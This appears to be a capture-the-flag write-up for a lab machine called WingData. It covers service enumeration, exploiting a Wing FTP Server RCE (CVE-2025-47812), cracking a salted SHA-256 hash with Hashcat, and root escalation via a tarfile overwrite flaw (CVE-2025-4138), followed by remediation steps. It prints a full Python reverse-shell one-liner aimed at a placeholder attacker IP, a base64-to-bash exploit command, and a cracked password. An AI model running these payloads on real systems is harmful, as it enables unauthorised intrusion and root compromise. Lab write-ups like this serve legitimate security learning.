

Summary
Machine Overview
WingData is an easy Linux machine where a vulnerable Wing FTP Server provides initial access, followed by privilege escalation through a vulnerable Python backup script.
Pentesting Process
Service Enumeration
The assessment begins with a comprehensive service enumeration using Nmap in order to identify exposed services and their versions.
nmap -sC -sV 10.129.1.220
The scan reveals two accessible services:
Nmap scan report for 10.129.1.220
Host is up (0.050s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
80/tcp open http Apache httpd 2.4.66
|_http-server-header: Apache/2.4.66 (Debian)
|_http-title: Did not follow redirect to http://wingdata.htb/
Service Info: Host: localhost; OS: Linux; CPE: cpe:/o:linux:linux_kernel
The web server redirects traffic to the virtual host wingdata.htb, which was added to the local
/etc/hosts file to enable proper interaction.
echo "10.129.1.220 wingdata.htb" >> /etc/hosts
During manual inspection of the website source code, a reference to the subdomain
ftp.wingdata.htb was identified. This endpoint exposed a Wing FTP Server instance,
which became the primary attack surface.
Vulnerability Analysis
The FTP service was identified as Wing FTP Server v7.4.3,
a version affected by a publicly disclosed remote code execution vulnerability
(CVE-2025-47812). Public exploit code is available,
making exploitation straightforward [1].

Initial Access
The vulnerability allows arbitrary command execution through the web interface.
To obtain a reverse shell, we used the following Python payload:
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ATTACKER-IP>",<LISTENING-PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
To avoid parsing issues, the payload was encoded in Base64 and executed using the public exploit:
python 52347.py --url http://ftp.wingdata.htb -c "echo <BASE64-ENCODED-PAYLOAD>|base64 -d|/bin/bash"
Successful exploitation resulted in a reverse shell running as the wingftp service account.
Lateral Movement
Post-exploitation enumeration of the Wing FTP installation directory revealed
users configuration files stored in XML format under
/opt/wftpserver/Data/1/users.
A user named wacky was identified, and their password hash was stored in the corresponding XML configuration file.
<?xml version="1.0" ?>
<USER_ACCOUNTS Description="Wing FTP Server User Accounts">
<USER>
<UserName>wacky</UserName>
<EnableAccount>1</EnableAccount>
<EnablePassword>1</EnablePassword>
<Password>32940defd3c3ef70a2dd44a5301ff984c4742f0baae76ff5b8783994f8a503ca</Password>
<!-- Snipped -->
</USER>
</USER_ACCOUNTS>
Password Cracking
The stored password hash was identified as SHA-256 with static salting
using the string WingFTP, as confirmed in the configuration file
/opt/wftpserver/Data/1/settings.xml.
grep -i "salt" /opt/wftpserver/Data/1/settings.xml
<EnablePasswordSalting>1</EnablePasswordSalting>
<SaltingString>WingFTP</SaltingString>
A custom Hashcat rule was created to append the salt to each wordlist entry.
cat append_salt.rule
$W$i$n$g$F$T$P
We test the rule using the first 10 entries of the RockYou wordlist:
hashcat --stdout /usr/share/wordlists/rockyou.txt -r append_salt.rule | head -n 10
123456WingFTP
12345WingFTP
123456789WingFTP
passwordWingFTP
iloveyouWingFTP
princessWingFTP
1234567WingFTP
rockyouWingFTP
12345678WingFTP
abc123WingFTP
We use Hashcat to crack the password:
hashcat -a 0 -m 1400 hash.txt /usr/share/wordlists/rockyou.txt -r append_salt.rule
32940defd3c3ef70a2dd44a5301ff984c4742f0baae76ff5b8783994f8a503ca:!#7Blushing^*Bride5WingFTP
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1400 (SHA2-256)
Hash.Target......: 32940defd3c3ef70a2dd44a5301ff984c4742f0baae76ff5b87...a503ca
Wacky's password is !#7Blushing^*Bride5, which allows SSH access to the machine.
Privilege Escalation
Running sudo -l revealed that the user wacky could
execute the Python script /opt/backup_clients/restore_backup_clients.py as root.
sudo -l
Matching Defaults entries for wacky on wingdata:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
use_pty
User wacky may run the following commands on wingdata:
(root) NOPASSWD: /usr/local/bin/python3
/opt/backup_clients/restore_backup_clients.py *
The script extracts a user-provided tar archive into a specified directory using Python’s tarfile module.
import tarfile
try:
with tarfile.open(backup_path, "r") as tar:
tar.extractall(path=staging_dir, filter="data")
print(f"[+] Extraction completed in {staging_dir}")
This module is affected by a vulnerability (CVE-2025-4138) that allows arbitrary file overwrite
through crafted tar archives.
Public PoC exploit code is available on GitHub [2].
To minimize risk and avoid damaging the system, the goal was to overwrite the Python script itself in a controlled manner.
The original code was preserved, and a small section was added to read and print the root flag.
#!/usr/bin/env python3
import tarfile
import os
import sys
import re
import argparse
# Read root flag
root_flag = open("/root/root.txt", "r")
print(f"Root flag: {root_flag.read().strip()}")
BACKUP_BASE_DIR = "/opt/backup_clients/backups"
STAGING_BASE = "/opt/backup_clients/restored_backups"
def validate_backup_name(filename):
if not re.fullmatch(r"^backup_\d+\.tar$", filename):
return False
client_id = filename.split('_')[1].rstrip('.tar')
return client_id.isdigit() and client_id != "0"
def validate_restore_tag(tag):
return bool(re.fullmatch(r"^[a-zA-Z0-9_]{1,24}$", tag))
def main():
parser = argparse.ArgumentParser(
description="Restore client configuration from a validated backup tarball.",
epilog="Example: sudo %(prog)s -b backup_1001.tar -r restore_john"
)
parser.add_argument(
"-b", "--backup",
required=True,
help="Backup filename (must be in /home/wacky/backup_clients/ and match backup_.tar, "
"where is a positive integer, e.g., backup_1001.tar)"
)
parser.add_argument(
"-r", "--restore-dir",
required=True,
help="Staging directory name for the restore operation. "
"Must follow the format: restore_ (e.g., restore_john). "
"Only alphanumeric characters and underscores are allowed in the part (1–24 characters)."
)
args = parser.parse_args()
if not validate_backup_name(args.backup):
print("[!] Invalid backup name. Expected format: backup_.tar (e.g., backup_1001.tar)", file=sys.stderr)
sys.exit(1)
backup_path = os.path.join(BACKUP_BASE_DIR, args.backup)
if not os.path.isfile(backup_path):
print(f"[!] Backup file not found: {backup_path}", file=sys.stderr)
sys.exit(1)
if not args.restore_dir.startswith("restore_"):
print("[!] --restore-dir must start with 'restore_'", file=sys.stderr)
sys.exit(1)
tag = args.restore_dir[8:]
if not tag:
print("[!] --restore-dir must include a non-empty tag after 'restore_'", file=sys.stderr)
sys.exit(1)
if not validate_restore_tag(tag):
print("[!] Restore tag must be 1–24 characters long and contain only letters, digits, or underscores", file=sys.stderr)
sys.exit(1)
staging_dir = os.path.join(STAGING_BASE, args.restore_dir)
print(f"[+] Backup: {args.backup}")
print(f"[+] Staging directory: {staging_dir}")
os.makedirs(staging_dir, exist_ok=True)
try:
with tarfile.open(backup_path, "r") as tar:
tar.extractall(path=staging_dir, filter="data")
print(f"[+] Extraction completed in {staging_dir}")
except (tarfile.TarError, OSError, Exception) as e:
print(f"[!] Error during extraction: {e}", file=sys.stderr)
sys.exit(2)
if __name__ == "__main__":
main()
Using the public exploit, a malicious tar archive was generated:
python exploit.py --tar-out backup_1001.tar --payload restore_backup_clients.py --target /opt/backup_clients/restore_backup_clients.py
The archive was uploaded to the machine and executed via:
sudo /usr/local/bin/python3 /opt/backup_clients/restore_backup_clients.py -b backup_1001.tar -r restore_john
After running the Python script for the first time, it was successfully rewritten. We then executed the modified script to retrieve the root flag.
Root flag: <REDACTED>
[+] Backup: backup_1001.tar
[+] Staging directory: /opt/backup_clients/restored_backups/restore_john
[+] Extraction completed in /opt/backup_clients/restored_backups/restore_john
The same vulnerability could also be used to:
- Add python payload to the script to get a reverse shell as root
- Manipulate root's ssh keys
- Overwrite sensitive files
Mitigation
Remediation
The following remediation steps can help prevent exploitation of the identified vulnerabilities:
- Upgrade
Wing FTP Serverto version 7.4.4 or later. - Follow Red Hat’s mitigation for CVE-2025-4138 [3],
or use a secure alternative to the Python
tarfilemodule for archive extraction.
References
References
Proof of Completion